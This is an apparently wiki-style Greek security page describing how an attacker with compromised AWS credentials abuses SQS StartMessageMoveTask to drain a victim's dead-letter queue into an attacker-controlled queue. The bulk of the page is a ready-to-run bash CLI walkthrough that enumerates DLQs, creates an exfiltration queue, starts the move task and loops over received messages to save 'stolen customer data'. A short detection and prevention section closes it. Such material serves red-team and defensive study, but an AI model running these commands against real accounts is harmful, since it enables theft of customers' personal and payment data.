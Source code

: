# AWS – SQS DLQ Redrive Εξαγωγή μέσω StartMessageMoveTask

## Περιγραφή

Καταχράσου τα tasks μετακίνησης μηνυμάτων του SQS για να κλέψεις όλα τα συσσωρευμένα μηνύματα από την Dead-Letter Queue (DLQ) του θύματος αναδρομολογώντας τα σε μια ουρά υπό έλεγχο του επιτιθέμενου χρησιμοποιώντας `sqs:StartMessageMoveTask`. Αυτή η τεχνική εκμεταλλεύεται τη νόμιμη λειτουργία ανάκτησης μηνυμάτων του AWS για να εξαγάγει ευαίσθητα δεδομένα που έχουν συσσωρευτεί σε DLQs με την πάροδο του χρόνου.

## What is a Dead-Letter Queue (DLQ)?

Μια Dead-Letter Queue είναι μια ειδική ουρά SQS όπου στέλνονται αυτόματα τα μηνύματα όταν αποτυγχάνουν να επεξεργαστούν επιτυχώς από την κύρια εφαρμογή. Αυτά τα αποτυχημένα μηνύματα συχνά περιέχουν:
- Ευαίσθητα δεδομένα εφαρμογής που δεν μπόρεσαν να επεξεργαστούν
- Λεπτομέρειες σφαλμάτων και πληροφορίες debugging
- Personal Identifiable Information (PII)
- API tokens, credentials ή άλλα μυστικά
- Επιχειρησιακά κρίσιμα δεδομένα συναλλαγών

Οι DLQs λειτουργούν ως «νεκροταφείο» για αποτυχημένα μηνύματα, καθιστώντας τις πολύτιμους στόχους αφού συσσωρεύουν ευαίσθητα δεδομένα με την πάροδο του χρόνου που οι εφαρμογές δεν μπόρεσαν να χειριστούν σωστά.

## Attack Scenario

**Πραγματικό παράδειγμα:**
1. **E-commerce application** επεξεργάζεται παραγγελίες πελατών μέσω SQS
2. **Κάποιες παραγγελίες αποτυγχάνουν** (προβλήματα πληρωμών, θέματα αποθέματος κ.λπ.) και μετακινούνται σε DLQ
3. **Η DLQ συσσωρεύει** εβδομάδες/μήνες αποτυχημένων παραγγελιών που περιέχουν δεδομένα πελατών: `{"customerId": "12345", "creditCard": "4111-1111-1111-1111", "orderTotal": "$500"}`
4. **Ο επιτιθέμενος αποκτά πρόσβαση** σε AWS credentials με δικαιώματα SQS
5. **Ο επιτιθέμενος ανακαλύπτει** ότι η DLQ περιέχει χιλιάδες αποτυχημένες παραγγελίες με ευαίσθητα δεδομένα
6. **Αντί να προσπαθήσει να αποκτήσει πρόσβαση σε μεμονωμένα μηνύματα** (αργό και προφανές), ο επιτιθέμενος χρησιμοποιεί `StartMessageMoveTask` για να μεταφέρει μαζικά ΟΛΑ τα μηνύματα στην δική του ουρά
7. **Ο επιτιθέμενος εξάγει** όλα τα ιστορικά ευαίσθητα δεδομένα σε μία ενέργεια

## Requirements
- Η source queue πρέπει να είναι διαμορφωμένη ως DLQ (αναφερόμενη από τουλάχιστον μία ουρά RedrivePolicy).
- IAM permissions (εκτελείται ως το συμβιβασμένο victim principal):
- Στην DLQ (source): `sqs:StartMessageMoveTask`, `sqs:GetQueueAttributes`.
- Στην destination queue: δικαίωμα παράδοσης μηνυμάτων (π.χ. policy ουράς που επιτρέπει `sqs:SendMessage` από το victim principal). Για προορισμούς στο ίδιο account αυτό συνήθως επιτρέπεται από προεπιλογή.
- Αν είναι ενεργοποιημένο SSE-KMS: στο source CMK `kms:Decrypt`, και στο destination CMK `kms:GenerateDataKey`, `kms:Encrypt`.

## Impact
Εξαγωγή ευαίσθητων payloads που έχουν συσσωρευτεί σε DLQs (αποτυχημένα events, PII, tokens, payloads εφαρμογών) με υψηλή ταχύτητα χρησιμοποιώντας native SQS APIs. Λειτουργεί cross-account εάν το policy της destination queue επιτρέπει `SendMessage` από το victim principal.

## How to Abuse

- Εντόπισε το victim DLQ ARN και επιβεβαίωσε ότι αναφέρεται πράγματι ως DLQ από κάποια ουρά (οποιαδήποτε ουρά είναι εντάξει).
- Δημιούργησε ή επίλεξε μια ουρά υπό έλεγχο του επιτιθέμενου ως destination και πάρε το ARN της.
- Ξεκίνησε ένα message move task από την victim DLQ προς την destination queue σου.
- Παρακολούθησε την πρόοδο ή ακύρωσε αν χρειαστεί.

### CLI Example: Exfiltrating Customer Data from E-commerce DLQ

**Scenario**: Ένας επιτιθέμενος έχει συμβιβάσει AWS credentials και ανακάλυψε ότι μια e-commerce εφαρμογή χρησιμοποιεί SQS με μια DLQ που περιέχει αποτυχημένες προσπάθειες επεξεργασίας παραγγελιών πελατών.

1) **Ανίχνευση και εξέταση της victim DLQ**
```bash
# List queues to find DLQs (look for names containing 'dlq', 'dead', 'failed', etc.)
aws sqs list-queues --queue-name-prefix dlq

# Let's say we found: https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq
VICTIM_DLQ_URL="https://sqs.us-east-1.amazonaws.com/123456789012/ecommerce-orders-dlq"
SRC_ARN=$(aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

# Check how many messages are in the DLQ (potential treasure trove!)
aws sqs get-queue-attributes --queue-url "$VICTIM_DLQ_URL" \
--attribute-names ApproximateNumberOfMessages
# Output might show: "ApproximateNumberOfMessages": "1847"
```
2) **Δημιουργήστε attacker-controlled destination queue**
```bash
# Create our exfiltration queue
ATTACKER_Q_URL=$(aws sqs create-queue --queue-name hacker-exfil-$(date +%s) --query QueueUrl --output text)
ATTACKER_Q_ARN=$(aws sqs get-queue-attributes --queue-url "$ATTACKER_Q_URL" --attribute-names QueueArn --query Attributes.QueueArn --output text)

echo "Created exfiltration queue: $ATTACKER_Q_ARN"
```
3) **Εκτέλεση της μαζικής κλοπής μηνυμάτων**
```bash
# Start moving ALL messages from victim DLQ to our queue
# This operation will transfer thousands of failed orders containing customer data
echo "Starting bulk exfiltration of $SRC_ARN to $ATTACKER_Q_ARN"
TASK_RESPONSE=$(aws sqs start-message-move-task \
--source-arn "$SRC_ARN" \
--destination-arn "$ATTACKER_Q_ARN" \
--max-number-of-messages-per-second 100)

echo "Move task started: $TASK_RESPONSE"

# Monitor the theft progress
aws sqs list-message-move-tasks --source-arn "$SRC_ARN" --max-results 10
```
4) **Συλλογή των κλεμμένων ευαίσθητων δεδομένων**
```bash
# Receive the exfiltrated customer data
echo "Receiving stolen customer data..."
aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--attribute-names All --message-attribute-names All \
--max-number-of-messages 10 --wait-time-seconds 5

# Example of what an attacker might see:
# {
#   "Body": "{\"customerId\":\"cust_12345\",\"email\":\"john@example.com\",\"creditCard\":\"4111-1111-1111-1111\",\"orderTotal\":\"$299.99\",\"failureReason\":\"Payment declined\"}",
#   "MessageId": "12345-abcd-6789-efgh"
# }

# Continue receiving all messages in batches
while true; do
MESSAGES=$(aws sqs receive-message --queue-url "$ATTACKER_Q_URL" \
--max-number-of-messages 10 --wait-time-seconds 2 --output json)

if [ "$(echo "$MESSAGES" | jq '.Messages | length')" -eq 0 ]; then
echo "No more messages - exfiltration complete!"
break
fi

echo "Received batch of stolen data..."
# Process/save the stolen customer data
echo "$MESSAGES" >> stolen_customer_data.json
done
```
### Σημειώσεις μεταξύ λογαριασμών
- Η ουρά προορισμού πρέπει να έχει resource policy που επιτρέπει στον principal του θύματος να `sqs:SendMessage` (και, αν χρησιμοποιούνται, KMS grants/permissions).

## Γιατί αυτή η επίθεση είναι αποτελεσματική

1. **Νόμιμη λειτουργία του AWS**: Χρησιμοποιεί ενσωματωμένη λειτουργικότητα του AWS, καθιστώντας δύσκολη την ανίχνευση ως κακόβουλη
2. **Μαζική λειτουργία**: Μεταφέρει χιλιάδες μηνύματα γρήγορα αντί για αργή μεμονωμένη πρόσβαση
3. **Ιστορικά δεδομένα**: Οι DLQs συσσωρεύουν ευαίσθητα δεδομένα για εβδομάδες/μήνες
4. **Κάτω από το ραντάρ**: Πολλές οργανώσεις δεν παρακολουθούν στενά την πρόσβαση σε DLQ
5. **Cross-Account Capable**: Μπορεί να εξάγει (exfiltrate) σε δικό του AWS account του attacker εάν οι άδειες το επιτρέπουν

## Ανίχνευση και Πρόληψη

### Ανίχνευση
Παρακολουθήστε το CloudTrail για ύποπτες κλήσεις API `StartMessageMoveTask`:
```json
{
"eventName": "StartMessageMoveTask",
"sourceIPAddress": "suspicious-ip",
"userIdentity": {
"type": "IAMUser",
"userName": "compromised-user"
},
"requestParameters": {
"sourceArn": "arn:aws:sqs:us-east-1:123456789012:sensitive-dlq",
"destinationArn": "arn:aws:sqs:us-east-1:attacker-account:exfil-queue"
}
}
```
### Πρόληψη
1. **Ελάχιστα προνόμια**: Περιορίστε τα δικαιώματα `sqs:StartMessageMoveTask` μόνο σε απαραίτητους ρόλους
2. **Παρακολούθηση DLQs**: Ρυθμίστε συναγερμούς CloudWatch για ασυνήθιστη δραστηριότητα σε DLQs
3. **Πολιτικές μεταξύ λογαριασμών**: Ελέγξτε προσεκτικά τις πολιτικές ουρών SQS που επιτρέπουν πρόσβαση μεταξύ λογαριασμών
4. **Κρυπτογράφηση DLQs**: Χρησιμοποιήστε SSE-KMS με περιορισμένες πολιτικές κλειδιών
5. **Τακτικός καθαρισμός**: Μην αφήνετε ευαίσθητα δεδομένα να συσσωρεύονται στα DLQs επ' αόριστον
